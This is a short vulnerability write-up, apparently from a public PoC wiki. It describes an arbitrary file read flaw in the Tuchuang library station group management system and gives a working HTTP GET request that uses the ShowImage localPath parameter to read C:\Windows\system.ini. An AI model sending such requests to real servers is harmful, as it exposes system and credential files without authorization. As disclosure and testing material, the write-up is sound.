# Tuchuang Software Library Station Group Management System Arbitrary File Reading Vulnerability

## Vulnerability Description

Tuchuang Software Library Station Group Management System has a vulnerability to read any file, and an attacker can read any file through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TuChuang Software Library Station Group Management System</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145211854.png)



The vulnerability request package is

```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145211840.png)



Successfully read the `system.ini` file